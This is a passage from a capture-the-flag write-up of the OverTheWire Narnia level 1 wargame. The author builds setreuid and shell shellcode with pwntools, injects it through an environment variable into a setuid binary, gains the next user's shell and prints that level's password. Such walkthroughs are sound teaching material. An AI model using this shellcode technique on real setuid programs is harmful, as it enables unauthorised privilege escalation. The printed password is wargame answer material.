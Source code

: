 Hmm.. we got a shell but we are the wrong user. After asking for help from the `OverTheWire` online community, I was told
that we have to set the `EUID` before we can spawn a shell. We can do this with the [pwntools](https://github.com/Gallopsled/pwntools)
library. Here is a potential implementation:

``` text
narnia1@gibson:/narnia$ python3
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> context.arch = 'i386'
>>> context.os = 'linux'
>>> context.endian = 'little'
>>> context.word_size = 32
>>> shellcode = asm(shellcraft.setreuid() + shellcraft.sh())
>>> enhex(shellcode)
'6a3158cd8089c36a465889d9cd806a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80'
```

We have created a shellcode, which we can set as the value for the environment variable `EGG` and run `./narnia1` again.


``` text
narnia1@gibson:/narnia$ export EGG=$( echo -en "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" )
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
Zzb6MIyceT
$ exit  
narnia1@gibson:/narnia$ 
```

Boom we got the flag!!!




